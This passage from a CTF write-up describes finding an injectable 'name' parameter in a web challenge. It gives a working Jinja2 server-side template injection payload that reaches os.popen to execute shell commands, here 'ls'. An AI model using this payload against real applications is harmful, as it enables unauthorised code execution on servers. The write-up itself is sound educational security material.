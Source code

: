 We can try usual parameters like `id`,`cmd`, `name` and a lot more. But `name` param itself worked.

> We can also try to brute force the param name by using tools like `ffuf` or `wfuzz`
{: .prompt-tip}

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-44.png)

And ssti payload also works in this param. 

![alt text](/commons/posts/2024-03-22-yukthi-ctf-writeups/image-45.png)

We can use the following template to get direct code execution. [Refer here](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti) for more payload.

```python
{% raw %}
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("ls").read()}}{%endif%}{% endfor %}
{% endraw %}
```
